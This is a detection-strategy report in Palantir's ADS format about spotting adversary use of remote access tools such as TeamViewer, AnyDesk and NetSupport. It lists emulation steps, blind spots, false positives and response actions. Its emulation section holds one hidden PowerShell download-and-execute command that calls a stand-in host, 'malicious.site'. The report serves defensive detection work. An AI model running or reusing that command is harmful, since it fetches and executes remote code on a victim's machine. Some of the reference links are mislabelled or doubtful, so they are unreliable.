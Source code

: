 # Palantir's Alerting & Detection Strategy (ADS) Framework Report

## **Goal**
The aim of this detection technique is to identify adversarial attempts to bypass security monitoring systems using remote access tools (RATs). These RATs can be leveraged by adversaries to gain unauthorized control over a target system, allowing them to execute commands, exfiltrate data, and move laterally within the network.

## **Categorization**
- **MITRE ATT&CK Mapping:** T1219 - Remote Access Software
- **Tactic / Kill Chain Phases:** Command and Control
- **Platforms:** Linux, Windows, macOS
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1219)

## **Strategy Abstract**
The detection strategy leverages a combination of endpoint monitoring data sources such as file integrity monitoring (FIM), process tracking, network traffic analysis, and web request logs. Patterns analyzed include unusual or unauthorized installations of remote access tools, anomalous command execution patterns typically associated with RATs, and irregular network connections indicating C2 activities.

## **Technical Context**
Remote Access Software is commonly used by adversaries to establish a persistent backdoor into compromised systems. Adversaries execute this technique using various methods such as phishing emails containing malicious attachments, exploiting vulnerabilities in remote desktop protocols, or through social engineering tactics that lead to the installation of legitimate remote access software under false pretenses.

### **Adversary Emulation Details**
- Commands: `powershell.exe -nop -w hidden -c "IEX ((New-Object System.Net.WebClient).DownloadString('https://malicious.site/payload.ps1'))"`
- Test Scenarios:
  - Downloading and executing remote access software binaries using PowerShell web requests.
  - Monitoring for unusual processes related to popular RATs such as TeamViewer, AnyDesk, LogMeIn, GoToAssist.

## **Blind Spots and Assumptions**
- Legitimate use of remote access tools by system administrators may be flagged as malicious activity.
- The strategy assumes that all suspicious remote connections are adversarial in nature, potentially missing sophisticated adversaries who mimic legitimate traffic patterns.
- Reliance on known RAT signatures might not detect zero-day or custom-developed remote access tools.

## **False Positives**
- Authorized installation and use of remote access software for IT support or maintenance purposes.
- Employees using personal devices with installed remote desktop applications connecting to home networks.
- Legitimate updates to remote access software that trigger alerts due to new binary signatures.

## **Priority**
**High** - The ability to bypass security monitoring through the use of RATs poses a significant risk, allowing adversaries to maintain persistence and conduct malicious activities undetected. The potential impact on confidentiality, integrity, and availability justifies a high priority for detection efforts.

## **Validation (Adversary Emulation)**
### Step-by-Step Instructions

1. **TeamViewer Files Detected Test on Windows:**
   - Download TeamViewer executable from the official site.
   - Execute and monitor file system changes using FIM tools to detect installation activity.

2. **AnyDesk Files Detected Test on Windows:**
   - Install AnyDesk and initiate a remote session.
   - Track network traffic for unusual connections to AnyDesk servers.

3. **LogMeIn Files Detected Test on Windows:**
   - Install LogMeIn software following the typical user installation path.
   - Observe process creation events for LogMeIn-related processes using endpoint detection tools.

4. **GoToAssist Files Detected Test on Windows:**
   - Download and run GoToAssist installer.
   - Use network monitoring to identify traffic patterns associated with remote support sessions.

5. **ScreenConnect Application Download and Install on Windows:**
   - Manually download the ScreenConnect application from a test server.
   - Monitor installation using endpoint detection solutions to capture related activities.

6. **Ammyy Admin Software Execution:**
   - Execute Ammyy Admin from command line with parameters simulating malicious use.
   - Capture execution patterns and network traffic indicative of remote access tool activity.

7. **RemotePC Software Execution:**
   - Set up RemotePC software in a controlled environment.
   - Track installation, configuration changes, and remote connection events.

8. **NetSupport - RAT Execution:**
   - Deploy NetSupport RAT in an emulated scenario with typical adversarial behavior.
   - Analyze command execution logs and network traffic for anomalies.

9. **UltraViewer - RAT Execution:**
   - Install UltraViewer and initiate a session using unconventional methods.
   - Monitor for unusual process interactions indicative of unauthorized access attempts.

10. **UltraVNC Execution:**
    - Configure UltraVNC server settings to mimic adversarial configurations.
    - Capture login attempts and network communications typical of unauthorized usage.

11. **MSP360 Connect Execution:**
    - Simulate MSP360 installation and setup.
    - Track remote connections and alert on unexpected configuration changes.

12. **RustDesk Files Detected Test on Windows:**
    - Download RustDesk executable and monitor system for installation alerts.
    - Observe network activity to detect unauthorized data transmission.

13. **Splashtop Execution:**
    - Install Splashtop software and simulate remote access activities.
    - Use endpoint protection tools to capture relevant events.

14. **Splashtop Streamer Execution:**
    - Execute the Splashtop Streamer application with atypical parameters.
    - Identify abnormal system behavior using process monitoring tools.

## **Response**
When an alert is triggered, analysts should:
1. Verify if there's legitimate reason for the remote access tool's presence and activity.
2. Conduct a thorough investigation of recent file changes, network connections, and process activities on affected systems.
3. Isolate compromised systems to prevent further unauthorized access or data exfiltration.
4. Update security policies and endpoint protections based on insights gained from the incident.

## **Additional Resources**
- [Usage Of Web Request Commands And Cmdlets](https://attack.mitre.org/techniques/T1218)
- [PowerShell Web Download Techniques](https://www.fireeye.com/blog/threat-research/2015/06/powershell_web_download.html)
- [Suspicious Invoke-WebRequest Execution](https://github.com/fireeye/SkyDive/wiki/Detecting-Suspicious-Invoke-WebRequest)

This framework provides a structured approach to detecting and responding to adversarial use of remote access software, enhancing an organization's ability to thwart potential security breaches.